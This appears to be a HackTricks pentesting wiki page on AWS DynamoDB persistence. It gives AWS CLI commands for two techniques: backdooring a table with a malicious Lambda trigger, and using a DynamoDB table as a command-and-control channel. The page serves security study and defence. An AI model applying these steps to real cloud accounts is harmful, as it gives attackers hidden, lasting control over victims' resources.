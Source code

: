 # AWS - DynamoDB Persistence

{{#include ../../../../banners/hacktricks-training.md}}

### DynamoDB

For more information access:

{{#ref}}
../../aws-services/aws-dynamodb-enum.md
{{#endref}}

### DynamoDB Triggers with Lambda Backdoor

Using DynamoDB triggers, an attacker can create a **stealthy backdoor** by associating a malicious Lambda function with a table. The Lambda function can be triggered when an item is added, modified, or deleted, allowing the attacker to execute arbitrary code within the AWS account.

```bash
# Create a malicious Lambda function
aws lambda create-function \
    --function-name MaliciousFunction \
    --runtime nodejs14.x \
    --role <LAMBDA_ROLE_ARN> \
    --handler index.handler \
    --zip-file fileb://malicious_function.zip \
    --region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
    --table-name TargetTable \
    --region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
    --function-name MaliciousFunction \
    --event-source <STREAM_ARN> \
    --region <region>
```

To maintain persistence, the attacker can create or modify items in the DynamoDB table, which will trigger the malicious Lambda function. This allows the attacker to execute code within the AWS account without direct interaction with the Lambda function.

### DynamoDB as a C2 Channel

An attacker can use a DynamoDB table as a **command and control (C2) channel** by creating items containing commands and using compromised instances or Lambda functions to fetch and execute these commands.

```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
    --table-name C2Table \
    --attribute-definitions AttributeName=CommandId,AttributeType=S \
    --key-schema AttributeName=CommandId,KeyType=HASH \
    --provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
    --region <region>

# Insert a command into the table
aws dynamodb put-item \
    --table-name C2Table \
    --item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
    --region <region>
```

The compromised instances or Lambda functions can periodically check the C2 table for new commands, execute them, and optionally report the results back to the table. This allows the attacker to maintain persistence and control over the compromised resources.

{{#include ../../../../banners/hacktricks-training.md}}




